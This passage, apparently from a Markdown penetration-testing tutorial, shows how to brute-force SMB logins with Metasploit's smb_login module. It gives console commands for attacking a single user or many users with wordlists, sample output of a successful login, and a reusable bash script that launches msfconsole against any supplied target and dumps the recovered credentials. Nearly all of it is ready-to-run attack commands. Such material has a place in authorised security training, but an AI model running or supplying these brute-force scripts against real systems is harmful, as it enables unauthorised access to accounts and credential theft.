 ```bash
   USER_AS_PASS       false                                no        Try the username as the password for all users
   USER_FILE          /usr/share/metasploit-framework/data/wordlists/common_users.txt  no        File containing usernames, one per line
   VERBOSE            true                                 yes       Whether to print output for all attempts
```

### Targeted Brute Force Attack

```bash
# Target specific user (admin)
msf6 auxiliary(scanner/smb/smb_login) > set SMBUser admin
msf6 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf6 auxiliary(scanner/smb/smb_login) > set STOP_ON_SUCCESS true
msf6 auxiliary(scanner/smb/smb_login) > set THREADS 5
msf6 auxiliary(scanner/smb/smb_login) > run

[+] 192.168.1.100:445 - SUCCESSFUL LOGIN (WORKGROUP\admin:password)
[*] Scanned 1 of 1 hosts (100% complete)
```

### Multi-User Brute Force

```bash
# Brute force multiple users
msf6 auxiliary(scanner/smb/smb_login) > unset SMBUser
msf6 auxiliary(scanner/smb/smb_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf6 auxiliary(scanner/smb/smb_login) > set USER_AS_PASS true
msf6 auxiliary(scanner/smb/smb_login) > set BLANK_PASSWORDS true
msf6 auxiliary(scanner/smb/smb_login) > run
```

### Advanced Brute Force Script

```bash
#!/bin/bash

TARGET=$1
USER_LIST=${2:-"/usr/share/metasploit-framework/data/wordlists/common_users.txt"}
PASS_LIST=${3:-"/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt"}

echo "[*] Starting SMB brute force attack"
echo "[*] Target: $TARGET"
echo "[*] User list: $USER_LIST"
echo "[*] Password list: $PASS_LIST"

msfconsole -q -x "
workspace -a smb_brute_force;
setg RHOSTS $TARGET;
use auxiliary/scanner/smb/smb_login;
set USER_FILE $USER_LIST;
set PASS_FILE $PASS_LIST;
set STOP_ON_SUCCESS true;
set THREADS 10;
set VERBOSE false;
run;
credentials;
exit"
```
